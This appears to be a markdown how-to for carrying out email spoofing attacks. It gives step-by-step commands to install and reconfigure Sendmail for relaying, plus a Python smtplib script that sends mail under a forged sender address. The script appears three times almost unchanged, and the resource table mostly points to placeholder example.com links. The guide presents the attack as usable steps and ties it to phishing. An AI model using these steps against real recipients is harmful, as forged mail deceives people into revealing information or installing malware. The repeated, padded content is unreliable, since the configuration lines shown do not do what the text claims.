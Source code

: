 # Summary
Email spoofing involves forging the sender's email address to make it appear as if the email is coming from a trusted source. This is often used in phishing attacks to trick recipients into revealing sensitive information or downloading malicious software.

Here's an overview of how email spoofing works:

1. **Prepare the Spoofed Email:** Create the content of the email and specify the forged sender's address.
2. **Set Up the SMTP Server:** Configure an SMTP server that allows you to send emails with arbitrary sender addresses.
3. **Send the Email:** Use the SMTP server to send the email to the target recipient with the forged sender address.
4. **Check Email Delivery:** Ensure the email reaches the recipient's inbox and appears to come from the forged sender.

# Execution
To execute an email spoofing attack, follow these steps:

1. **Install an SMTP Server:** You can use an SMTP server like Sendmail or Postfix, or use an online service that allows SMTP relay.
2. **Configure the SMTP Server:** Ensure the SMTP server is configured to allow emails to be sent from any arbitrary address.
3. **Create the Spoofed Email:** Use a script or email client to create and send the spoofed email.

#### Step 1: Install an SMTP Server
You can install an SMTP server like Sendmail on a Linux system:

```
sudo apt-get install sendmail
```

#### Step 2: Configure the SMTP Server
Edit the Sendmail configuration to allow email relaying:

1. Open the configuration file:

```
sudo nano /etc/mail/sendmail.mc
```

2. Add the following lines to allow relaying:

```
define(`confTRUSTED_USERS', `root')dnl
FEATURE(`accept_unresolvable_domains')dnl
FEATURE(`accept_unqualified_senders')dnl
```

3. Rebuild the Sendmail configuration:

```
sudo sendmailconfig
```

#### Step 3: Create the Spoofed Email

Use a script or email client to create and send the spoofed email. Here’s an example using Python and the smtplib library:

```
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart

# Prepare the email
from_address = "spoofed_sender@example.com"
to_address = "target_recipient@example.com"
subject = "Important Update"
body = "This is a spoofed email. Please ignore."

# Create the email message
msg = MIMEMultipart()
msg['From'] = from_address
msg['To'] = to_address
msg['Subject'] = subject
msg.attach(MIMEText(body, 'plain'))

# Set up the SMTP server
smtp_server = "smtp.example.com"
smtp_port = 25
smtp_user = "your_smtp_user"
smtp_password = "your_smtp_password"

# Send the email
server = smtplib.SMTP(smtp_server, smtp_port)
server.login(smtp_user, smtp_password)
server.sendmail(from_address, to_address, msg.as_string())
server.quit()

print("Email sent successfully.")
```

Replace `smtp.example.com`, `your_smtp_user`, and `your_smtp_password` with the details of your SMTP server.

#### Step 4: Check Email Delivery
Ensure the email reaches the recipient's inbox and appears to come from the forged sender. This might involve checking spam folders or email headers for confirmation.

# Example Execution
Below is a simplified walkthrough:

#### Step 1: Install and configure Sendmail on a Linux system:

```
sudo apt-get install sendmail
```

Edit the Sendmail configuration to allow relaying:

```
sudo nano /etc/mail/sendmail.mc
```

Add the following lines to allow relaying:

```
define(`confTRUSTED_USERS', `root')dnl
FEATURE(`accept_unresolvable_domains')dnl
FEATURE(`accept_unqualified_senders')dnl
```

Rebuild the Sendmail configuration:

```
sudo sendmailconfig
```

#### Step 2: Create the spoofed email using a Python script:

```
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart

# Prepare the email
from_address = "spoofed_sender@example.com"
to_address = "target_recipient@example.com"
subject = "Important Update"
body = "This is a spoofed email. Please ignore."

# Create the email message
msg = MIMEMultipart()
msg['From'] = from_address
msg['To'] = to_address
msg['Subject'] = subject
msg.attach(MIMEText(body, 'plain'))

# Set up the SMTP server
smtp_server = "smtp.example.com"
smtp_port = 25
smtp_user = "your_smtp_user"
smtp_password = "your_smtp_password"

# Send the email
server = smtplib.SMTP(smtp_server, smtp_port)
server.login(smtp_user, smtp_password)
server.sendmail(from_address, to_address, msg.as_string())
server.quit()

print("Email sent successfully.")
```

Replace `smtp.example.com`, `your_smtp_user`, and `your_smtp_password` with the details of your SMTP server.

#### Step 3: Check email delivery to ensure it appears to come from the spoofed sender.

# Example Code
Here's a conceptual example in Python using the `smtplib` library to send a spoofed email:

```
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart

# Prepare the email
from_address = "spoofed_sender@example.com"
to_address = "target_recipient@example.com"
subject = "Important Update"
body = "This is a spoofed email. Please ignore."

# Create the email message
msg = MIMEMultipart()
msg['From'] = from_address
msg['To'] = to_address
msg['Subject'] = subject
msg.attach(MIMEText(body, 'plain'))

# Set up the SMTP server
smtp_server = "smtp.example.com"
smtp_port = 25
smtp_user = "your_smtp_user"
smtp_password = "your_smtp_password"

# Send the email
server = smtplib.SMTP(smtp_server, smtp_port)
server.login(smtp_user, smtp_password)
server.sendmail(from_address, to_address, msg.as_string())
server.quit()

print("Email sent successfully.")
```
Replace `smtp.example.com`, `your_smtp_user`, and `your_smtp_password` with the details of your SMTP server. Ensure that you have proper permissions and that the server allows email relaying for your intended use.

# Resources

|**Website**|**URL**|
|-|-|
|Email Spoofing Explained|https://example.com/email-spoofing|
|SMTP Protocol Overview|https://example.com/smtp-overview|
|Phishing Techniques|https://example.com/phishing-techniques|
|Cybersecurity Best Practices|https://example.com/cybersecurity-best-practices|
|Email Security Tools|https://example.com/email-security-tools|
|Python smtplib Documentation|[https://docs.python.org/3/library/smtplib.html](https://docs.python.org/3/library/smtplib.html)|
|Sendmail Manual|https://example.com/sendmail-manual|
|Understanding Email Headers|https://example.com/email-headers|
|Social Engineering Tactics|https://example.com/social-engineering|
|Preventing Email Spoofing|https://example.com/preventing-spoofing|